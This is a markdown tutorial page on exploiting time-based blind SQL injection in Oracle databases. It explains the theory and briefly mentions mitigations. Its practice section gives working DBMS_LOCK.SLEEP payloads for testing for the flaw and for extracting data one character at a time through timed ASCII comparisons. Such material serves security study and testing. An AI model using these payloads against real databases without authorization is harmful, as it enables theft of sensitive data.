 ```yaml
---
title: Oracle SQL Time-Based Blind SQL Injection Guide
description: Explore how to exploit Oracle SQL time-based blind SQL injections for
  data extraction using timing functions like DBMS_LOCK.SLEEP.
keywords:
- Oracle SQL
- time-based blind
- SQL injection
- DBMS_LOCK.SLEEP
- timing attack
- blind SQL injection
- data extraction
---
```


# Time-Based Blind

## Context

This article focuses on exploiting Oracle SQL time-based blind SQL injection. This technique is used for data extraction by manipulating query execution times. Before proceeding, readers should be familiar with SQL query execution, Oracle database functions, the HTTP request-response cycle, and general Oracle SQL injection techniques.

## Theory

### Oracle Database Timing Functions

Oracle databases have built-in functions such as `DBMS_LOCK.SLEEP`, which can introduce intentional delays when executing SQL queries. By manipulating these delays, attackers can infer true or false conditions within queries. The primary principle here is leveraging time delays to deduce information without receiving direct responses from the database.

### Blind SQL Injection Mechanisms

Blind SQL injection allows attackers to exploit SQL injection vulnerabilities without direct data retrieval. Unlike traditional SQL injection, where data is returned in the response, blind SQL injections involve triggering different outcomes based on conditions evaluated in the SQL query. This is achieved by using conditional logic within the SQL query that causes time delays based on whether the condition is true or false, thereby indirectly revealing information about the database structure or data.

### Timing Attack Mitigation Strategies

To defend against timing-based SQL injection attacks, stringent input validation and the use of parameterized queries are critical. Timing attacks typically exploit weaknesses in input sanitization, allowing attackers to manipulate SQL queries. Ensuring that input is properly sanitized and queries are parameterized is essential to mitigating such vulnerabilities.

## Practice

### Exploiting Time-Based Blind SQL Injection

To exploit a time-based blind SQL injection, the attacker will construct SQL queries that conditionally introduce delays. Here’s how this can be done manually in an Oracle SQL environment:

- Start with a basic insertion of delay:
  ```sql
  SELECT CASE WHEN (condition) THEN DBMS_LOCK.SLEEP(seconds) ELSE NULL END FROM dual;
  ```
  Use conditional logic to introduce a delay based on the evaluation of the condition in the SQL query.

- Test the database for vulnerability:
  ```sql
  SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(5) ELSE NULL END FROM dual;
  ```
  This query introduces a delay of 5 seconds. If the database takes longer to respond, it indicates that SQL injection is possible.

- Data inference using conditional delays:
  ```sql
  SELECT CASE WHEN (ASCII(SUBSTR((SELECT column_name FROM table_name WHERE ROWNUM=1),1,1))>77) THEN DBMS_LOCK.SLEEP(5) ELSE NULL END FROM dual;
  ```
  By adjusting the condition, observe if there’s a delay to infer if the ASCII value of the first character of the column's name is greater than 77. This step-by-step data inference continues using similar queries to extract information based on the time delay of responses.

Expected Outcome: Through these steps, sensitive data can be extracted by deducing true or false conditions through the timing of the database's responses.

## Tools

- **sqlmap**
- **Burp Suite**